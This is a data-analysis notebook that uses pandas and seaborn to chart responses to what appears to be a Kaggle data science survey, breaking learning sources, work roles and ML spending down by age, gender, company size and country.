





In [0]:
########REQUIRED SOURCE FOR LEARNING LIST TO ANALYZE THE USAGE OF EACH SOURCE ACROSS DIFFERENT COUNTRIES
sources = stl.Source_for_learning.unique()
for i in sources:
    d = stl[stl['Source_for_learning']==i]
    dr = d.reset_index(drop=True)
    sns.set(style="whitegrid")
    fig, ax = plt.subplots(1, 1, figsize=(110,30))
    tips = sns.load_dataset("tips")
    ax = sns.barplot(x="Q3", y="Frequency", data=dr)
    ax.set_title("Distribution of different participants from different countries using {}".format(i),fontsize=30)
    ax.set(xlabel='Source for learning used', ylabel='Frequency')
    ax.tick_params(axis = 'both', which = 'major', labelsize = 15)
    ax.tick_params(axis = 'both', which = 'minor', labelsize = 15)

In [0]:
#Find distribution of main source of learning by age group --> see which audience is better target audience
l = req.Q3.unique()
sources = ['Q12_Part_2','Q12_Part_3','Q12_Part_4','Q12_Part_5','Q12_Part_6','Q12_Part_7','Q12_Part_8','Q12_Part_9','Q12_Part_10','Q12_Part_11','Q12_Part_12']
l = list()
for i in sources:
    df = req.groupby([i,'Q1']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Source_for_learning'}, inplace = True)
    l.append(df)

In [0]:
sources_to_learn_by_age = pd.concat(l)

In [0]:
sources_to_learn_by_age = sources_to_learn_by_age[sources_to_learn_by_age.Source_for_learning!=0]

In [0]:
stla = sources_to_learn_by_age.reset_index(drop=True)
stla

,Source_for_learning,Q1,Frequency
0,Hacker News (https://news.ycombinator.com/),18-21,225
1,Hacker News (https://news.ycombinator.com/),22-24,328
2,Hacker News (https://news.ycombinator.com/),25-29,453
3,Hacker News (https://news.ycombinator.com/),30-34,303
4,Hacker News (https://news.ycombinator.com/),35-39,197
...,...,...,...
116,Other,45-49,75
117,Other,50-54,64
118,Other,55-59,42
119,Other,60-69,35


[Text(0, 0.5, 'Distribution of age groups of people participating in the survey'),
 Text(0.5, 0, 'Age Group')]



In [0]:
####
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(stla.index, stla.Q1.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q1", y="Frequency", hue="Source_for_learning", data=stla)
ax.legend(fontsize=20)
ax.set_title('Distribution of preferred source reporting data science by age group',fontsize=20)
ax.set(xlabel='Age Group', ylabel='Distribution of age groups of people participating in the survey')


##############Older people tend to stick to paper version of information... might explain why there is a higher proportion of 70plus people dependng on journal publications
############18-29 reddit increases and then steady decline; same for kaggle
############

In [0]:
###age distribution by country ...
##########more visual analysis required
l = req.Q3.unique()
sources = ['Q12_Part_2','Q12_Part_3','Q12_Part_4','Q12_Part_5','Q12_Part_6','Q12_Part_7','Q12_Part_8','Q12_Part_9','Q12_Part_10','Q12_Part_11','Q12_Part_12']
l = list()
for i in sources:
    df = req.groupby([i,'Q1','Q3']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Source_for_learning'}, inplace = True)
    l.append(df)
countries = req.Q3.unique()
sources_to_learn_by_age = pd.concat(l)
sources_to_learn_by_age = sources_to_learn_by_age[sources_to_learn_by_age.Source_for_learning!=0]
stla = sources_to_learn_by_age.reset_index(drop=True)
for i in countries:
    d = stla[stla['Q3']==i]
    dr = d.reset_index(drop=True)
    sns.set(style="whitegrid")
    fig, ax = plt.subplots(1, 1, figsize=(90,20))
    tips = sns.load_dataset("tips")
    ax = sns.barplot(x="Q1", y="Frequency", hue="Source_for_learning", data=dr)
    ax.legend(fontsize=20)
    ax.set_title('Distribution of preferred source reporting data science by age group in country {}'.format(i),fontsize=20)
    ax.set(xlabel='Age Group', ylabel='Distribution of age groups of people participating in the survey')
    ax.legend(loc='best')

Output hidden; open in https://colab.research.google.com to view.

In [0]:
########Just a fun dive at q9 <----> category -> "None of these activites are an important part of my role at work"
###########See the popuplations where the curiosity to learn the language exists <----> age group grouping, country grouping
#Q9 ---> Has 8 parts
l = req.Q3.unique()
role_at_work = ['Q9_Part_1','Q9_Part_2','Q9_Part_3','Q9_Part_4','Q9_Part_5','Q9_Part_6','Q9_Part_7','Q9_Part_8']
l = list()
for i in role_at_work:
    df = req.groupby([i,'Q1']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Role_at_Work'}, inplace = True)
    l.append(df)

In [0]:
role_at_work = pd.concat(l)

In [0]:
role_at_work

,Role_at_Work,Q1,Frequency
0,Analyze and understand data to influence produ...,18-21,183
1,Analyze and understand data to influence produ...,22-24,736
2,Analyze and understand data to influence produ...,25-29,1566
3,Analyze and understand data to influence produ...,30-34,1241
4,Analyze and understand data to influence produ...,35-39,866
...,...,...,...
6,Other,45-49,23
7,Other,50-54,10
8,Other,55-59,8
9,Other,60-69,9


In [0]:
role_at_work = role_at_work[role_at_work.Role_at_Work != 0]

[Text(0, 0.5, 'Distribution of role at work of people participating in the survey'),
 Text(0.5, 0, 'Age Group')]



In [0]:
####
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(role_at_work.index, role_at_work.Q1.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q1", y="Frequency", hue="Role_at_Work", data=role_at_work)
ax.legend(fontsize=20)
ax.set_title('Distribution of Role at work by age group',fontsize=20)
ax.set(xlabel='Age Group', ylabel='Distribution of role at work of people participating in the survey')


##############Older people tend to stick to paper version of information... might explain why there is a higher proportion of 70plus people dependng on journal publications
############18-29 reddit increases and then steady decline; same for kaggle
############

In [0]:
###NOT MUCH INSIGHT BY GENDER DISTRIBUTION

role_at_work = ['Q9_Part_1','Q9_Part_2','Q9_Part_3','Q9_Part_4','Q9_Part_5','Q9_Part_6','Q9_Part_7','Q9_Part_8']
l = list()
for i in role_at_work:
    df = req.groupby([i,'Q2']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Role_at_Work'}, inplace = True)
    l.append(df)

In [0]:
role_at_work_gender = pd.concat(l)

In [0]:
role_at_work_gender = role_at_work_gender[role_at_work_gender.Role_at_Work != 0]
role_at_work_gender

,Role_at_Work,Q2,Frequency
0,Analyze and understand data to influence produ...,Female,852
1,Analyze and understand data to influence produ...,Male,5156
2,Analyze and understand data to influence produ...,Prefer not to say,75
3,Analyze and understand data to influence produ...,Prefer to self-describe,8
0,Build and/or run the data infrastructure that ...,Female,418
1,Build and/or run the data infrastructure that ...,Male,3083
2,Build and/or run the data infrastructure that ...,Prefer not to say,60
3,Build and/or run the data infrastructure that ...,Prefer to self-describe,5
0,Build prototypes to explore applying machine l...,Female,570
1,Build prototypes to explore applying machine l...,Male,4336


[Text(0, 0.5, 'Distribution of gender of people participating in the survey'),
 Text(0.5, 0, 'Gender')]



In [0]:
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(role_at_work_gender.index, role_at_work_gender.Q2.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q2", y="Frequency", hue="Role_at_Work", data=role_at_work_gender)
ax.legend(fontsize=20)
ax.set_title('Distribution of Role at work by gender',fontsize=20)
ax.set(xlabel='Gender', ylabel='Distribution of gender of people participating in the survey')

In [0]:
role_at_work = ['Q9_Part_1','Q9_Part_2','Q9_Part_3','Q9_Part_4','Q9_Part_5','Q9_Part_6','Q9_Part_7','Q9_Part_8']
l = list()
for i in role_at_work:
    df = req.groupby([i,'Q6']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Role_at_Work'}, inplace = True)
    l.append(df)

In [0]:
role_at_work_size = pd.concat(l)

In [0]:
role_at_work_size = role_at_work_size[role_at_work_size.Role_at_Work != 0]

[Text(0, 0.5, 'Distribution of role at work of participants participating in the survey'),
 Text(0.5, 0, 'Size of company')]



In [0]:
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(role_at_work_size.index, role_at_work_size.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q6", y="Frequency", hue="Role_at_Work", data=role_at_work_size)
ax.legend(fontsize=20)
ax.set_title('Distribution of Role at work by size of company',fontsize=20)
ax.set(xlabel='Size of company', ylabel='Distribution of role at work of participants participating in the survey')




#is ML finding more tendency for application in smaller scaled companies ?????

[Text(0, 0.5, 'Distribution of role at work of participants participating in the survey'),
 Text(0.5, 0, 'Size of company')]



In [0]:
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(role_at_work_size.index, role_at_work_size.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q6", y="Frequency", hue="Role_at_Work", data=role_at_work_size)
ax.legend(fontsize=20)
ax.set_title('Distribution of Role at work by size of company',fontsize=20)
ax.set(xlabel='Size of company', ylabel='Distribution of role at work of participants participating in the survey')




#is ML finding more tendency for application in smaller scaled companies ?????

In [0]:
##########Distribution of people involved in 
role_at_work = ['Q9_Part_1','Q9_Part_2','Q9_Part_3','Q9_Part_4','Q9_Part_5','Q9_Part_6','Q9_Part_7','Q9_Part_8']
l = list()
for i in role_at_work:
    df = req.groupby([i,'Q6','Q3']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Role_at_Work'}, inplace = True)
    l.append(df)
countries = req.Q3.unique()
role_at_work_size = pd.concat(l)
role_at_work_size = role_at_work_size[role_at_work_size.Role_at_Work != 0]
stla = role_at_work_size.reset_index(drop=True)
countries = req.Q3.unique()
for i in countries:
    d = stla[stla['Q3']==i]
    dr = d.reset_index(drop=True)
    #plt.xticks(role_at_work_size.index, role_at_work_size.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
    sns.set(style="whitegrid")
    fig, ax = plt.subplots(1, 1, figsize=(90,20))
    tips = sns.load_dataset("tips")
    ax = sns.barplot(x="Q6", y="Frequency", hue="Role_at_Work", data=dr)
    ax.legend(fontsize=20)
    ax.set_title('Distribution of Role at work by size of company in {}'.format(i),fontsize=20)
    ax.set(xlabel='Size of company', ylabel='Distribution of role at work of people participating in the survey')

Output hidden; open in https://colab.research.google.com to view.

In [0]:
########Amount spent by company v/s size of company employed 
df = req.groupby(['Q6','Q11']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)

In [0]:
d = df[df.Q6 != 0]

In [0]:
dr = d[d.Q11 != 0]

In [0]:
y = dr

In [0]:
y

,Q6,Q11,Frequency
0,0-49 employees,$0 (USD),1163
1,0-49 employees,$1-$99,526
2,0-49 employees,"$10,000-$99,999",280
3,0-49 employees,$100-$999,739
4,0-49 employees,"$1000-$9,999",660
5,0-49 employees,"> $100,000 ($USD)",92
6,"1000-9,999 employees",$0 (USD),788
7,"1000-9,999 employees",$1-$99,227
8,"1000-9,999 employees","$10,000-$99,999",294
9,"1000-9,999 employees",$100-$999,408


[Text(0, 0.5, 'Distribution of amount invested by companies of participants participating in the survey'),
 Text(0.5, 0, 'Size of company')]



In [0]:
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q6", y="Frequency", hue="Q11", data=dr)
ax.legend(fontsize=20)
ax.set_title('Distribution of Money invested in ML and Cloud Products by size of company',fontsize=20)
ax.set(xlabel='Size of company', ylabel='Distribution of amount invested by companies of participants participating in the survey')




#is ML finding more tendency for application in smaller scaled companies ?????

In [0]:
###########Amount invested in companies in the field of machine learning and cloud computing products by country
df = req.groupby(['Q6','Q11','Q3']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
d = df[df.Q6 != 0]
dr = d[d.Q11 != 0]
countries = req.Q3.unique()
for i in countries:
    d = dr[dr['Q3']==i]
    drr = d.reset_index(drop=True)
    #plt.xticks(role_at_work_size.index, role_at_work_size.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
